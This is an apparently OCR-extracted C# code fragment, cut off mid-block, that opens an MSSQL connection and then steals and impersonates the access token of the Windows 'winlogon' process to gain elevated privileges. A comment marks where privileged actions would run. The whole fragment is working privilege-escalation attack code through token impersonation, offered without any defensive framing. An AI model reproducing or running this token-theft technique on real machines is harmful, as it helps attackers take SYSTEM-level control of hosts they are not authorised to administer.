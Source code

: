 ```csharp
            // Connection string to MSSQL with low-privileged account
            string connectionString = "Server=myServerAddress;Database=myDataBase;User Id=myUsername;Password=myPassword;";
            using (SqlConnection connection = new SqlConnection(connectionString))
            {
                try
                {
                    connection.Open();
                    Console.WriteLine("Connected to MSSQL Server.");

                    // Fetch processes (targeting an elevated process like 'winlogon.exe')
                    Process[] processes = Process.GetProcessesByName("winlogon");
                    if (processes.Length > 0)
                    {
                        IntPtr tokenHandle = IntPtr.Zero;
                        IntPtr duplicateTokenHandle = IntPtr.Zero;

                        // Open process token
                        if (OpenProcessToken(processes[0].Handle, TOKEN_DUPLICATE | TOKEN_IMPERSONATE, out tokenHandle))
                        {
                            Console.WriteLine("Process token opened.");

                            // Duplicate the token
                            if (DuplicateToken(tokenHandle, SecurityImpersonation, out duplicateTokenHandle))
                            {
                                Console.WriteLine("Token duplicated.");

                                // Impersonate the token
                                if (ImpersonateLoggedOnUser(duplicateTokenHandle))
                                {
                                    Console.WriteLine("Token impersonation successful.");
                                    // Now running with elevated privileges
                                    // Execute privileged actions here...
                                }
                                else
                                {
                                    Console.WriteLine("Token impersonation failed.");
                                }

                                CloseHandle(duplicateTokenHandle);
                            }
                            else
                            {
                                Console.WriteLine("Token duplication failed.");
                            }

                            CloseHandle(tokenHandle);
                        }
                        else
                        {
                            Console.WriteLine("OpenProcessToken failed.");
                        }
                    }
                    else
                    {
                        Console.WriteLine("No target processes found.");
                    }
                }
                catch (Exception ex)
                {
                    Console.WriteLine("Error: " + ex.Message);
```